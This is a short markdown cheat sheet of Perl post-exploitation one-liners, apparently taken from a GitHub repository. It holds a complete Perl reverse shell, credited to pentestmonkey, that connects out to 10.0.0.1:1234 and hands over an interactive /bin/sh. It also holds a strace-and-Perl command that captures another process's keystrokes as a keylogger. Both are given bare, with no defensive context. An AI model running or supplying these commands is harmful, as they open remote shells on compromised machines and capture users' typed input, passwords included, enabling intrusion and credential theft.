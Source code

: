 # Perl Commands and Scripts for Post Exploitation

**Perl reverse shell from [pentestmonkey.net](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)**

```perl 
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```

**Running proc keylogger**
```perl
strace -p $PID -f -eread -o '| perl -ne'\"BEGIN{$|=1}my($i)=/\(0,"([^"]*)"/;print$i'\'```

